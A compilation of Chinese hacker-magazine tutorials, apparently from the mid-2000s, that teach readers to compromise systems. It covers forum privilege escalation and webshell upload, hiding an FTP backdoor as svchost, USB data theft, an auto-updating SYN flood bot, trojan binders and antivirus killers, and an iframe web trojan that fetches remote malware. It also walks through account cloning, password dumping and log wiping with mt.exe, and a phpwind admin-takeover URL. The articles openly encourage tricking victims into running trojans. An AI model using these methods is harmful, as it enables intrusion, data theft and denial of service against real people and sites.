打开网站猎手 2.0 后可见新增“动网猎手”页面。可先通过关键词（如 Powered By / Dvbbs Version）搜索目标论坛，再将地址导入工具进行检测和访问。

右侧文字说明了从搜索结果中挑选论坛、导入访问栏、抓取当前网址并进行测试的流程，示例站点为 `cqgood.com/bbs/`。


名和密码，准备注册一个用户，然后点“注册成管理员”，如果不需要验证码，一般就能注册成功。你看，提示注册成功了（图 2）。要是漏洞未修补，注册的用户就有管理员权限了……登录后出现了管理和回收站菜单（图 3），说明我注册的用户已经提权成前台管理员了。


还有另一种情况，有些论坛需要验证码，按上面的方法注册时会提示验证码错误，这时你就启用“使用注册码验证”功能，会自动引导你访问页面获取验证码，并得到相应的 cookie 值（图 4）。


输入相应的验证码，一样能注册成功。如果登录需要验证码，也是先访问找到验证码填入。现在我们是前台管理员，可以看任何内部帖子和编辑修改他人帖子……来到动网猎手界面，我们来获得后台管理员的用户名和密码，选择“后台管理”并点“获取后台信息”……在列表最后可以看到管理员名和密码了（图 6）。


记下这个最大页码，填入“开始显示页面”框内填入 385（图 7），这样再查询就可以一次来到目标处。得到的密码是 MD5 加密的，我们可以使用工具进行破解……选择“查 log 记录”并点击“获取后台信息”按钮，会显示后台操作记录，管理员的后台密码通常会明文记录在这里……


……“username1=XX”或者“oldname”的记录就是（图 8）。再来看前台管理员，因为动网要求登录后台时，必须在前台以相应的管理员登录才行……选择“前台管理员”选项，再“获取后台信息”，就可以得到前台管理员（图 9）。通常前台管理员比后台管理员多，如果分不清谁对应谁，还可以查“前后台对应”。


你看，前后台管理员名字相同，密码也相同，这就好办了……在前台以相应管理员重新登录，再点“管理”登录后台，就进入后台了（图 10）。进入后台，要查看或修改什么是你的自由。但我们是想获得 webshell，所以首先看数据库备份。

木马改成 jpg 后缀，直接上传（图 11），然后在后台通过备份数据库获得 shell（图 12、图 13）。


获得网址后，就可以点击“检测漏洞文件”页面，来到第二个界面。点“载入网址”，就可以将左边的网址载入到中间列表中，以便对这些网址进行扫描验证了。在列表框上，你可以点右键弹出菜单，按相应菜单条进行修改、复制，或去掉不想要的网址，也可以通过插入来只载入一两个网址。

检测页面也可以选择，也可以用增加或导入。购物网站的上传漏洞文件是 `upfile_flash.asp`、`upfile.asp`、`upload.asp`，选择这几个就可以了。最下面是检测出证明有漏洞网页存在，有无漏洞则要看是否补上了漏洞（图 15）。有些采用跳转页面的网站，若页面不存在，就会跳转到某个页面，这时也会报网页存在。


有时，我们不需要上传自己的 webshell，其他人要是通过数据库备份得到 shell 的话，log 中也有记录，我们就可以直接拿来使用了。


#### 二、漏洞网址收集

网站猎手最大的特点是方便漏洞网址收集，任何新发现的网站漏洞，都可以用它搜索到。首先找出有漏洞系统的特征字串，如 DVBBS、“动网动力 3”等等。比如购物网站漏洞，可以通过输入“购物商城”（不含引号）来搜索到一大堆（图 14）。

至于更多的搜索技巧，同百度一样，默认使用百度，也可以使用 Google，方法是直接访问 Google，然后在网页中搜，同样能获得结果，找出相关网址。

在列表中，你可以点击右键弹出相关菜单，进行删除、复制、插入、访问等操作，双击网址即将该网址传递到最上的网址栏中，以便访问。

当查询完成页面显示出来后，会显示已找到很多相关网站。这时你就可以点左边的“获取网址”键，相关网址就会收集到左边该键下面的列表框中。

也可以按选项对这些网址进行整理，比如只取根网站，去掉不想要的网址，或者保留想要的网址，这里也有很多技巧，自己可以多试。因为网址可以累积，可能有重复，你可以在整理时剔除重复的网站。获得的网址可以导出保存，供其它工具用，也可以从外部导入再次使用。


这是所有页面扫描都无法避免的。遇到这种情况，你可以使用右键的辨别功能，删除这些。也可以使用群导功能导出来一类网址。


#### 扫描漏洞文件


图 18

#### 文件上传

扫出的结果，可以导出。也可点击右键进行访问，或双击将地址传到访问地址栏，查看漏洞是否已补。对于存在漏洞的网页，右键菜单选择上传（图 16），地址自动传递并来到上传界面，选择购物商城类，然后点上传，一个 asp 后门就上传成功了（图 17）。你也可以导入其它 ASP 后门直接上传（图 18）。这里需要自己判断是何种上传类型，一般多属动网型。购物商城类，因为增加了一个参数验证，老兵的万能上传工具都不行，所以增加了这一类。2.0 版还增加了一个双文件欺骗上传类，对动网、南方企业网等都验证有效。

#### 后台扫描猜解

在检测页面下，通过导入后台地址文件 `admin.txt`，可以用来猜解网站后台，只要你的 `admin.txt` 文件设置得好，就可以猜出；目前一般猜后台专用工具能猜出的，网站猎手也能猜出（图 19）。


图 19

### cookie 欺骗

2.0 版增加了 cookie 的获取和修改功能，从而为其它漏洞利用带来方便。比如动网提权漏洞需要抓包获取 cookie 值，这里就无需抓包，访问页面就会获得相应的 cookie。通过修改 cookie 值，还可以进行 cookie 欺骗。比如上面的动网提权漏洞中，只能找到后台的明文密码，如果前后台的密码不一致，无法在前台以相对应的管理员登录，就不能进行后台。怎么办？可以通过 cookie 欺骗来实现。这样，不改前台密码一样可以欺骗成那个前台管理员，然后再进行后台。网站猎手有较好的可扩展性，比如漏洞文件可以随意扩展，将一些网站的默认数据库加入，就可以搜出一大堆按默认数据库安装的网站。新发现的任何网站系统的可利用页面，你都可以加入，就算是最新漏洞，本工具不能利用，但你可以通过本工具找到这些漏洞站和可利用文件，然后用相应工具利用。

> （本文涉及的相关工具网站猎手 2.0 及相关动画，光盘中有收录。）


## 风碧玉箫

现在，越来越多的杀毒软件都把木马、FTP 建站软件、黑客软件列入到了查杀范围，使得我们这些黑客爱好者在入侵时受到了不小的阻力。比如，好不容易在肉鸡上安装了木马或后门，不出几天便被上面安装的杀毒软件给 Kill 掉，我们苦心经营的“肉鸡”就这样飞掉了，真是令人痛心疾首。因此，我们便产生了一个美妙的想法：如果能把一些正规的非黑客软件拿来当作黑客工具使用，不就可以避免类似现象的发生，并让肉鸡长久处于我们的控制之下吗？

这个美妙的想法源于我用的一款 FTP 架站软件：XlightFTP。事情是这样的：前几天，由于我要在两个实验室的电脑之间传输文件，便想到搭建 FTP。本想用 Serv-U，但考虑到 FTP 服务器的安全性以及软件的汉化问题，就改用其他软件。看到平时收集的 XlightFTP，安装并试用后发现该软件非常容易上手，并且在查看它的帮助文件时，无意中发现该软件提供了以服务运行的方式。更令我兴奋的是：软件提供了安装成服务方式运行的命令参数以及将程序隐藏运行的参数。于是，灵光一闪，一个“新大陆”就这样被我发现了：如果在肉鸡上把它安装成服务，不仅可以把肉鸡变成一台 FTP 服务器；并且，这是一款正规的非黑客软件，任何杀毒软件都不会为难它；程序可以隐藏运行的得天独厚条件又使得它不会被目标主机管理员发现，这样就可以打“持久战”，岂不美哉！

现在，就结合我的一台肉鸡，在上面打造一个隐藏的 FTP 服务器后门。正所谓磨刀不误砍柴工！首先，我们要在自己的机器上做好一些必要的准备工作。安装该软件，成功安装后运行它并进行注册（可以用我提供的注册机）。在程序主界面，点击工具栏里的“配置”按钮，在出现的“配置 FTP 虚拟服务器”窗口中，点击最左下角的“增加”按钮（图 1），然后在新出现的“增加新的虚拟服务器”窗口中配置我们的虚拟服务器（图 2）。接着，在“通用”选项卡里面，“服务器 IP”按默认即可，即“动态 IP”，“服务器端口”改为 2121，当然也可以是其它端口，以增加迷惑性（注意：尽量避免 21 端口，以防止与目标主机管理员安装的 FTP 软件发生冲突）。点击“用户”选项卡，再点击窗口最左下角的“+”按钮，新添一个管理员账号 admin，并设好相应密码（图 3）。


图 1


图 2


图 3

点击“应用”后回到“用户”选项卡，选择新建的 admin 账号；点击“虚拟目录”选项卡并“增加”，新建虚拟目录并分配对应权限（图 4）。


图 4

菜单里选择“启动虚拟服务器”，这样本地的 FTP 服务器就运行起来了（图 5）。你可以打开“我的电脑”，在地址栏里面输入：`ftp://127.0.0.1:2121`，检查一下本机 FTP 服务端是不是真的运行起来了。


图 5

说了这么多，该进入主题了：将其安装为服务方式运行的命令行参数可隐藏运行参数。进入安装目录后，将配置文件与程序复制到新目录，并将 `xlight.exe` 改名为 `svchost.exe`。

你也可以在 3389 登录方式下打开命令行窗口，或者是 Telnet 登录或其它方式，用软件自身提供的命令将其安装为服务：`svchost -installauto`。另外还可以用 `svchost -install` 手动方式运行服务。


图 6

```
reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Xlight FTP Server]
"DisplayName"="Windows Server Service"
```

然后将其另存为 `display.reg`，这个文件一会儿要用到。


图 7

接下来使用远程控制软件将文件夹拷贝到目标主机目录，通过 Telnet 进入新建目录执行安装命令，并导入注册表：`regedit /s display.reg`。

为了使导入的注册表文件生效，先停止服务：`net stop "Windows Server Service"`，再重启：`net start`。文中描述了首次可能报错，重启后生效。

```text
C:\WINDOWS\system32\Com\svchost>del display.reg
C:\WINDOWS\system32\Com\svchost>net stop "Windows Server Service"
发生系统错误 1060。
指定的服务未作为已安装的服务存在。
```

图 8

```text
Windows Audio
Windows Management Instrumentation
Windows Server Service
Windows Service
Windows Time
Wireless Zero Configuration
Workstation
```

图 9

## 傻瓜黑客

| 协议 | 本地地址 | 外部地址 | 状态 |
|---|---|---|---|
| TCP | 0.0.0.0:1000 | 0.0.0.0:0 | LISTENING |
| TCP | 0.0.0.0:2121 | 0.0.0.0:0 | LISTENING |
| TCP | 0.0.0.0:7825 | 0.0.0.0:0 | LISTENING |


图10

最后将该文件夹下的所有文件隐藏：

```bash
attrib +s +h *.*
```

现在我们便在目标主机上成功地建立了FTP服务器，单靠Windows自带任务管理器很难看出异常。登录内网FTP服务查看，登录成功（图11）。到这里，一台FTP肉机就搭建完成，既隐藏又不易被杀毒软件清除。


图11

为了方便菜鸟使用，我已经将其制作成一个自解压文件，在Windows下双击或在DOS下直接运行即可安装（默认账号密码见文中说明）。在这次搭建FTP中，我意识到许多非黑客软件也可以“黑客化”。例如远控软件、代理软件等，只要具备特定条件即可利用。

- 1. 软件本身提供了以服务运行的方式和安装成服务的命令参数；
- 2. 程序可以隐藏运行或提供了隐藏运行的命令参数；
- 3. 软件的功能在黑客入侵中可被利用，如代理服务、远程控制、FTP服务等。

> （本文涉及的相关工具：Xlight FTP，光盘中有收录。）

### 山贼“U盘窃密者”

haijuneck

今天，肖飞到我这里来，带了几张3.5寸的软件盘，说要把U盘拿过去他那里，但没上网，下载都无法……我说这都什么年代了，还用软盘。随后引出“U盘窃密者”这一小工具：可通过DLL注入与启动项方式在本地驻留，自动复制U盘中的资料。


图1

这里选择注入项后生成服务端（如Thief.exe），并进行本机测试：先不要立刻运行服务端，在C盘根目录手工建立Test文件夹后再启动程序并插入U盘，观察是否自动复制。

测试中发现有时不会自动复制。检查后看到系统中出现可疑服务（Windows Internet Service，路径指向inetsvr.exe），推测其以服务方式启动。停止服务并删除相关文件后重测，可恢复正常。文章最后提醒：考试资料等敏感文件应注意U盘安全。


图2


图3


图4

> （本文涉及的相关工具：闪盘窃密者，光盘中有收录。）

## 让主机监控系统统统“寝没”

唐·敏


计算机和互联网的广泛应用，使网络的安全性要求变得越来越高。因此不少政府机关和企业都安装了主机监控系统，对网络环境内国家机密和商业秘密加以保护。此类监控系统常见的有8341主机监控与审计系统、内网110、安信主机监控与审计系统等等。

我们公司今年也安装了一套XXX主机监控与审计系统。主机监控系统无论原理还是功能都和木马非常相似，也是采用CS模式来对被控机进行监控，所不同的是主机监控系统重点是防止资料泄密，所以它的日志功能非常强大。

由于管理员给我装客户端的时候我没有备份注册表和文件列表，因此我也不知道监控系统的客户端对我的电脑做了些什么操作，只好一步一步地手工卸载。下面我将详细介绍我手工卸载的全部过程。

既然主机监控系统采用的是CS模式，那么服务端和客户端之间必定会建立网络连接。打开CMD，输入命令`netstat -an`，结果见图1。

监控系统服务器的IP地址，再来看是什么程序和服务器建立的连接，这时我们要用到一个小程序Fport.exe。继续在命令行下使用该程序，我们就可发现本机是一个叫Eudemon.exe的任务和服务器建立连接，如图2。

Eudemon是守护神的意思，顾名思义，看来这个就是监控系统的客户端程序了。尝试结束进程后该程序会被再次拉起，推测存在守护进程在保护Eudemon。

```bat
kill -f 624
del c:\winnt\system32\Eudemon.exe
```

其中624就是Eudemon的PID号。运行del.bat之后，Eudemon已经删除了，但随后又发现连接仍然存在，于是继续排查对应进程，如图3。


图1

通过截图我们可以发现本机的2001端口与IP地址为192.168.14.8的主机5001端口建立了连接，192.168.14.8很可能就是主机监控系统服务器。


图2


图3

我发现现在居然是Explorer在连接服务器了，看来有非法的DLL动态链接库文件插入到Explorer中去了。到底是哪些非法的DLL文件插入到Explorer中去了？我找出查DLL文件常用的是进程执法官（注意：不是网络执法官），该工具可以查出非法进程是否开启了服务，或者在注册表中是否加入了开机自动运行代码，同时还可以查出合法进程中是否插入了可疑的DLL文件。


图4

通过分析我们可以查出COMMMODU.DLL、FIREWALL.DLL、FUNCMODU.DLL和IEMON.DLL都有问题，来到system32下面将这几个文件一比较，发现它们建立时间也一样，这更加坚定了我的判断。既然找到了有问题的DLL文件，当然是删除它们。但是由于它们现在正插入到Explorer中，没法直接删除，那我们就通过Windows任务管理器先结束掉Explorer然后再删除。删除后再看看网络连接，这时没有任何网络连接了！重启电脑之后也没发现自己那服务器有任何的连接，整个世界清净了！

也许你会问如果不是插入到Explorer，而是插入到svchost或者winlogon等中去呢？该怎么办？其实办法很多，可以选择进DOS删除出问题的DLL文件，或者用一些强制删除文件的软件进行删除。还有的朋友会问，如果这个客户端在注册表中加入了开机自动启动的代码，或者在服务里面加入了新的服务怎么办？其实很容易理解，既然客户端程序都被我删除了，即使注册表里面加入了开机自动启动客户端的代码，但是没有客户端啊，怎么启动！服务也一样，即使开了新的服务找不到程序也是白开。我们看看图5，这个是我重启电脑之后打开“服务”看到的。


图5

主机监控系统确实给我添加了新的服务，不过Eudemon.exe都被我删除了，不知道它这个服务怎么启动。注册表我也懒得去清理了，就是清理注册表也是多余了。

本文写到这就结束了，虽然我只针对的是我们公司的主机监控系统，但其它主机监控系统的原理也差不多，当你受不了监控系统的压迫的时候不妨参考一下本文，也许对你摆脱压迫有点帮助。

> （注：请本文作者速与编辑部联系！相关工具、未详解的kill exe、查看PID号的Process Explorer、进程执法官，光盘中有收录。）

## “冬日”精品工具大亮玩

柯少

今天给大家介绍几款黑客常用的小工具，挺方便实用的哦，都是“冬日”的作品。

会比较了解，就是类似于一种流水性的攻击，让对方的服务器或者机器垮掉。这里我们要介绍的这个SYN自动攻击器，跟平时开的不同，它具有自动的特征。如何自动呢？我们首先用文本写一个SYN.ini文件，里面的内容参考如下：


图1

```ini
192.168.1.2    // 对方IP
80             // 对端端口
2              // MaxThreads
20             // 攻击时间
```

以此类推，写好以后，你就把syn.ini文件上传到你的空间，然后我们开始配置，点击“makeserver”，图2。阅完文件，就抄写你的syn.ini上传地址（写入主拼装启动，你可以不改，就用默认的下载syn.ini的时间间隔），然后再选择“隐藏窗口运行”，OK，把生成的文件自己定义个名字保存就好了，然后上传到肉鸡上给它运行，它就会10分钟下载一次syn.ini进行目标攻击。你可以随时更改syn.ini达到更改攻击目标；若你要让肉鸡停止攻击，就把空间中的syn.ini文件删除就可以了。

#### 捆绑机和免杀捆绑机

小菜玩黑，我想必不可少的当然是免杀的捆绑机了。这款就是免杀的捆绑机，与别的捆绑机不同，它可以智能化地设置“释放到系统目录运行”，还可以选择“异步运行”（增加隐蔽性），以及“运行后删除文件”（毁尸灭迹，嘿嘿），如图1。

对着那里点击右键，然后把你要捆绑的文件添加进去（最多可以捆绑三个文件），选好生成后的图标，再把下面三个勾勾选上，选好保存的位置，点击“保存”按钮，就捆绑成功了。这里不再继续测试，你们回去自己试验。


图2

### Telnet和3389的肉鸡远程管理器

我们知道，Telnet和3389的机器很难管理，不像那些反弹连接那样自动上线，所以我们需要记录对方的IP、端口等。但是记录在文本上也麻烦，经常要打开文本来复制、粘贴。但是有了这款工具，就方便多了（如图3）。


图3

要增加管理的肉鸡，就可以直接点击“add”，然后把相关信息输入。然后对着其中管理的肉鸡点击右键，选择3389，就可以登录3389；或者选择telnet，就可以直接telnet肉鸡。都是傻瓜操作，我也不多叙述，各位自己摸索。

其实这个“××登录器”的时候，利用这个工具留下后路，是比较方便的。总体功能有4个：

- 1. 打开终端（可自行设置端口；可删除自身；自动重新启动机器）；
- 2. 添加普通用户；
- 3. 添加隐藏用户；
- 4. 克隆GUEST用户。


图4

怎么样，是不是感觉挺好呢？来看看图4。好的，有界面应该就会操作了吧。有了这个工具，我们可以省去很多命令的麻烦。而且生成的文件也只有10多K，加个壳的话就几K而已，方便上传到肉鸡及运行。好啦，今天就给大家介绍到这里了。希望大家以后发现什么好东西，请不要独享，也可以拿出来和我们X档案的朋友一起分享。

> （本文涉及的相关工具：Love Manager.exe、TSClient.exe、冬日SYN攻击器.exe、冬日捆绑机.exe等，光盘中有收录。）


王艺翔

网上黑客工具多如牛毛，菜鸟喜欢的工具要具备的特点是：可视化操作、短时间见效快。很自然地，旁注WEB综合检测程序成了菜鸟们的最爱。此工具内部集成了很多功能，像SQL注入、密码破解等等。下面让我们介绍下如何利用此工具来愚弄一下菜鸟黑客。

本人就是菜鸟一只，当然喜欢利用此工具入侵。操作也很直接了当：先在“输入域名”处填写对方网址并将其转化为IP地址，并按“查询”。等待所有网站扫描查询完毕后，我们再在“载入查询网址”，并在图2所示的地方勾上“全选”，按下“开始”，工具就自动检测了，我们要做的事情就是喝杯咖啡静静地等待扫描结果。


图1


图2

在图2所示的地方，不知道大家有没有发现一个“/diy.asp”。这条目就是用来检测此网站以前有没有被黑客上传过“小马”。如果检测到就更好，因为管理小马是不需要输入密码的，有了“小马”后就可以上传“大马”进一步提升权限。

其实我们完全可以手动做个diy.asp放在自己网站目录里面。这个网页打开后只是个表象，我们真正的目的是将网页木马插入其中让菜鸟中招。现在比较流行的网页木马有几种……

```html
<body></body>中加入
<iframe src="木马地址" name="zhu" width="0" height="0" frameborder="0"></iframe>
```

我们先将灰鸽子木马做成免杀版并放在`http://www.xxx.com/gezi/gezi.exe`空间中。当菜鸟输入站点后下载并执行。为了解决体积和触发问题，可以用“潜入者”将鸽子服务端转化后的qq.exe（2K多）作为快捷方式指向灰鸽子服务端。

具体配置如下：“木马地址”处填写“http://www.xxx.com/gezi/qq.exe”，当菜鸟浏览diy.asp时运行qq.exe，这个小文件会自动到`http://www.xxx.com/gezi/gezi.exe`处下载并执行。是不是很像快捷方式啊！


图3

当然了，不单是这一种生成网页木马的方法，还有很多不同的工具。其实本质原理应该都是一样的。我们可以在保持原来diy.asp大体不变的基础上进行伪装，让对方感觉不到异常，在浏览时也能看到上传窗口；但真正提交时无法成功。

我想这两处改装都很容易实现。尤其是第二处的改装，要能保证我们的服务端够安全，又能有更多时间让灰鸽子木马运行。我们就坐在家里等着菜鸟肉机吧！

> （本文涉及的相关工具：旁注综合检测，光盘中有收录。）

fxlt

Tc被大家都称作黑客的瑞士军刀，其实我觉得mt才是真正的瑞士军刀，因为它的功能实在是太多了……这工具是在命令行下使用的，不过使用是很方便的，就不要害怕了。

在这里我们就以一次实际的入侵来体验mt功能的强大。首先我们需要得到一个shell……输入`mt -sysinfo`，这个命令是查看机器配置的。

```text
Hardware information:
Number of CPU : 1
CPU1 is Intel(R) Pentium(R) 4 CPU 2.00GHz...
...
Drive Info:
A:\ Floppy
C:\ HDD FAT32
D:\ HDD FAT32
E:\ HDD NTFS
F:\ CDROM
```

图1

输入`type c:\boot.ini`，这个命令会查看启动文件……输入`mt -clone Administrator guest`，这个命令的意思是克隆，把guest克隆为管理员账户。

这个需要有系统权限，不过在利用05039溢出后得到的权限都是系统权限，所以也就不用为这个担心了（图2）。

```text
Read value F from 1F4 of administrator.
Set value F to 1F5 of guest

Success!
```

图2

我们检查一下是否clone成功，输入：`mt -chkusr`，注意这个也需要系统权限才可以运行。我们用这个也可以查看自己机器里是否有被克隆的账户（图3）。

```text
UserName      ExpectedSID   CheckedSID
Administrator 1F4          1F4
Guest         1F5          1F4
```

图3

看到没有？克隆成功。下一步得到他的管理员密码，方便以后办事。输入：`mt -findpass`，这个可比findpass.exe好……（图4）。

```text
C:\WINNT\system32>mt -findpass
...
The logon information:
Domain   : THUNDER
Username : Administrator
Password : chinaren
```

图4

看看管理员在干什么吧。输入：`mt -pslist`，这个命令是列进程的，功能和pslist.exe差不多（图5）。

```text
PID   Path
4     [Idle Process]
8     [System]
...
1224  C:\WINNT\system32\svchost.exe
```

图5

进程好多啊……输入`mt -pskill 2000`，再次输入`mt -pslist`，看下qq.exe果然没了……接着输入：`mt -chkts`，这个参数是检测终端服务是否安装（图6）。

```text
C:\WINNT\system32>mt -chkts
...
Terminal Services isn't installed!
```

图6

没有开，给他开开。输入`mt -setupts`，这个参数是安装终端服务，也就是我们常说的3389。

等机器重启以后就能用了（图7）。

```text
C:\WINNT\system32>mt -setupts
...
Install Terminal Server successful!
Start type : Auto
Restart to active it?
```

图7

然后更改个端口，3389端口太明显了。输入`mt -chgtsp 1030`，意思是把终端服务端口改为1030。但是也要重启后才有效果（图8）。

```text
C:\WINNT\system32>mt -chgtsp 1030
...
Terminal Service port now is : 1030
```

图8

让我们静静地等待吧……重启后输入`mt -netget <url> <filename to saved>`，需要加`http://`或者`ftp://`，并且保存路径必须写完整，包括文件名。

然后呢？对，是打扫战场，输入`mt -clog all`，这里会删除所有“应用程序”“系统”“日志”等……（图9）。

```text
窗口标题：0 个事件
视图：日期 / 时间 / 来源 / 类别 ...
（没有可显示的项目）
```

图9

果然全没了。现在就可以安全退出了。这就是一次简单的入侵。mt的其它功能在这次入侵中没有用到，比如端口映射、IP筛选、增加/关闭终端口、显示服务信息、安装删除服务等。

大家可以自己亲手试验一下。绝对能让你删除原来很多的工具，因为有mt足够了。

（本文涉及的相关工具：mt.exe，光盘中有收录。）

## 菜鸟的无敌入侵宝典集——百世经纶入侵狂暴集

X 小黑

入侵，这个名词，我想大家都已经很熟悉了。那么我来问问各位，入侵中最需要的是什么？是一套好的黑软工具，嘿嘿，无可否认吧。今天我就给大家带来了一套实用的、小巧的黑软，是由我们的“一步江湖”朋友写出来的哦，菜鸟们可千万不要错过了……

首先请出来的是——百世经纶之破甲先锋 1.0，它主要是用于我们在入侵了某台主机后，对主机的控制，起到管理文件的功能，也可以说是一款远控木马软件吧。这里简单介绍一下了，它属于微型远程管理工具，具备文件管理功能，可以上传、下载、删除或者远程运行文件；生成服务端 14KB，默认安装在 system32 目录；无 DLL 方式；反弹连接；支持固定 IP 和域名；支持自定义端口和连接密码。

我们来看看如何配置和使用吧。打开软件先，先来配置一下服务端（菜鸟：为什么要配置啊？……）。我们点击设置下面的“配置服务器”按钮，会弹出一个对话框，需要填写相应信息：“安装文件名”、连接地址、端口、连接密码等。内网测试时直接填写内网 IP 即可（可在 CMD 中输入 `IPCONFIG /ALL` 查看，如图 1）。


图 1

然后就是“连接端口”了，你喜欢写什么端口就写什么端口，比如我写的是 8080。接着是设置连接 SHELL 的密码，另外还有个重要选项，若你要本地测试木马的话就选择 Run，否则就选 Shell。把这些配置信息填写好后，点击“生成”按钮，服务端就会生成，接下来当然就是让别人运行这个木马了。


图 2


图 3

怎么才能让别人运行呢，可以通过 QQ 直接发给别人运行，或者捆绑另外一个程序（例如捆绑游戏、软件安装程序），然后骗别人运行。最后就是说服对方执行服务端程序，便可实现控制。第一种方法较落后，第二种方法需要一些捆绑技术，这里选择第二种方法。

#### 小插曲一

我们引入“一步江湖”写的第二款黑客常用工具——百世经纶捆绑机：程序很小，几十 K 而已，麻雀虽小五脏俱全。还有一些附加功能，下面看看如何使用吧。首先，选择宿主文件，就是我们需要捆绑的程序，然后选择木马文件，就是我们刚才生成的 server.exe 服务端。接着，关键的一步了，如果是无伪装的话，就选择无伪装。如果捆绑的宿主文件是 flash 文件，就在 flash 前面勾上；若绑定的是 SDEMO 文件（SDEMO 文件也就是平时你们看的动画教程的那种格式的文件），那就在 SDEMO 文件前面打勾。

黑啦，后面这两种比较新鲜吧，以前都是捆绑 EXE 文件，这次有了新创意哦，以后大家看动画教程或者 FLASH 的时候，也要小心点咯。俗话说：害人之心不可有，但防人之心不可无！好啦，再继续看下去，我们现在进行捆绑，点击“捆绑”按钮就 OK 了，在当前目录下，就会生成捆绑后的文件。这里再给大家发掘一下此软件的一个特色之处——伪装。只要你捆绑成功以后，再点击一次“伪装”按钮，那么我们的伪装效果就出来啦，如图 4。


图 4

> **小提示：** 伪装原理简介：伪装过后的捆绑文件，让别人运行第一次的时候，被捆绑的程序中的木马服务端会跟着运行；但是，运行了第一次以后，那个伪装过的文件，就会复原为原来的干净程序——也就是说少了木马服务端，只剩下宿主文件。所以，当别人发现问题，再扫描此文件的时候，却不会再发现有病毒。这个伪装的效果就起到了作用了（至少别人会减少对你的怀疑啦）。

#### 小插曲二

好咯，捆绑好后，就可以直接传给别人了，骗人家运行，呵呵。居心不良的人，可能要传给自己的网友之类的，偷看隐私啥……难道这样就完美了么？哈哈，还不行。说明了要介绍一套黑软给大家的嘛，才两款怎么够呢，再来一款吧。嚣张开道测试版（一步江湖的作品），少见吧，主要功能还是让我来给大家解说。我们平时给别人中木马，遇到一些电脑白痴还好，连防火墙都不安装的，也更加不用说会使用防火墙了。但经常一些木马就是给别人的防火墙拦住了，或者是给别人的杀毒软件杀掉了，那怎么办？心有不甘呀，不甘心？那就让我们的嚣张开道来帮帮你吧。

打开软件，先把你的木马端选好，然后就是：进程 1、2、3，填写你需要终止对方电脑上杀毒软件或者防火墙的进程名字，限制最多可以终止 3 个服务。为什么要停止服务？呵呵，如果不停此杀毒软件或者防火墙相应的服务，谁能担保你上传的其他工具什么的不被查出来？要是对方正在操作电脑的时候，突然出现一个发现病毒的提示窗，估计这种情形可不是入侵者所希望看到的。配置后如图 5。


图 5

当然了，你需要先知道防火墙和杀毒软件的进程名和服务。这里也不太难，自己装一下就知道了嘛。现在的人用的杀毒软件无非就是金山毒霸、瑞星、麦咖啡、卡巴斯基、诺顿，防火墙也就是天网、金山网镖、卡巴等这些。这里我就不给出现成的名字了，自己研究一下吧。填写好之后，点击“生成”按钮，就可以了。

现在我们就可以给对方种马了，至于使用什么方法让对方中马呢，就是你的事情了。

我发了一个 FLASH 给朋友，说挺好看的，他就看了。现在……当然是中了我的木马了。打开控制端，填写上端口、密码，然后点击“监听”，等了几秒钟，中了木马的电脑就反弹连接我了，让我们来看看吧，如图 6。


图 6

嘿嘿，如何？有五个盘呢，看来是个 80G 硬盘了。对着其中的文件点击右键，会弹出控制菜单来，可以进行下载、上传文件，隐藏运行或可见运行、删除等功能，如图 7。

说明了这款木马是个专业级文件管理木马，我们来测试下它的速度吧。随便下载一个文件，哇，速度惊人，以后从肉鸡上拖文件，可就不用愁了，随便把肉鸡上的好东西全拖过来，如图 8。


图 7


图 8

到此本该告一段落了，可我们的最后一款小黑软还没有出来亮相呢。好吧，就让它出场吧。哦，原来是近来比较新的一种技术——下载者。实名为：百世经纶下载者（免杀，也是一步江湖的作品）。此软件是结合其他的一些远控软件或者窃密软件使用的。因为前面我们介绍的“破甲先锋”是没有直接观察肉鸡屏幕功能的，也许满足不了个别用户，那么怎么解决呢？我们就需要用其他远控软件来助一臂之力了。例如灰鸽子、黑洞，或者 radmin 都是屏幕功能超强的。

我们可以先配置好木马服务端，然后上传到我们的网络空间，然后打开“下载者”，填写上我们空间的网址 + 木马服务端的程序名，把 FSG 压缩选上，点击“生成”，那么就会生成一个服务端，压缩后仅有 1.13KB 而已，如图 9。

我们可以通过破甲先锋，把这个“下载者服务端”传到对方电脑上，然后给它隐藏运行，就会让 EXPLORER.EXE 从我们指定网址下载配置好的木马服务端并自动运行，一般来说可以穿越防火墙。这样我们就功德圆满了，文件管理和屏幕控制两不误了 +-+。

今天为大家带来的这几款入侵常用的小黑软，不知道大家是否喜欢。希望今后，大家也能够把一些小黑软结合起来使用，说不定会有意想不到的效果哦。小菜们如果还有什么不明白的地方，欢迎到 X 论坛跟我一起交流。


图 9

（本文涉及的相关工具：百变终结入侵工具集合，光盘中有收录。）


## 傻瓜黑客

CEE[杰]

近来 php 和 asp 的漏洞真是层出不穷啊，dvbbs、phpwind、l-blog 等等一些出名的网站程序都出现了不少漏洞，让我们这些玩黑的朋友获得了一批又一批的 webshell，又是 php 的，又是 asp 的，想必这 webshell 多得都不好管理了呢。那么大家有没有考虑过如何更方便地管理你的 webshell 呢？有个菜鸟冒出来：用肉鸡管理器把它们一个一个登记好。无奈：嗯，是不错的建议，不过我们今天的主角不是这个，而是“lanker 微型 PHP+ASP 管理器 1.0 双用版”。下面让我们来看一看吧。

有许多朋友都喜欢用一句话木马，因为简单，可以随意插入到原来站点程序的文件中，隐藏性高，不容易给网管查出来，例如灰鸽子、蓝屏、lanker 的前版本等等都是很优秀的 webshell。可是它们都只是针对不同语言程序的 webshell，有些是针对 asp 程序的，有些是针对 php 程序的。可是我们要同时管理 phpshell 和 aspshell 的时候，怎么办呢？想知道，那就看看我们今天这款经过 lanker 改造过的“微型 PHP+ASP 管理器 1.0 双用版（内部版）”（菜鸟：轻巧的 webshell 管理器，以后出外必备的好东西）。

直接用浏览器打开“lanker 微型 PHP+ASP 管理器”，在左下角分别是 php 后门服务端代码和 asp 后门服务端代码。也就是说，把这一句话代码分别插入到你入侵的网站的 php 或 asp 网页中，然后再用这个管理器就可以直接控制管理了，是不是挺微型、挺易用呢？

先来试验一下 php 后门吧。首先，我们必须把服务端写入网站的网页中，这里用什么办法就自己想了。前段时间我们都知道 phpwind blog 出了个修改管理员后台密码，由于我手头没有工具，就用手工入侵了，这里不详细说明入侵方法了，简单的利用方法如下：

- 1. 注册一个新的帐号，然后登录；
- 2. 成功登录后，在地址栏输入：http://目标服务器/blog.php?uid_1.html（查看管理员帐号）；
- 3. 接着在地址栏输入：http://目标服务器/user_index.php?action==//admin/manage&job=submit&username=你的注册帐号&password=你要设置的密码&check_pwd=你要设置的密码（这步是把你注册的帐号提升为管理员）；
- 4. 重新登录就会在首页上发现多了个系统设置了，点击输入帐号密码就可以成功进入后台了。

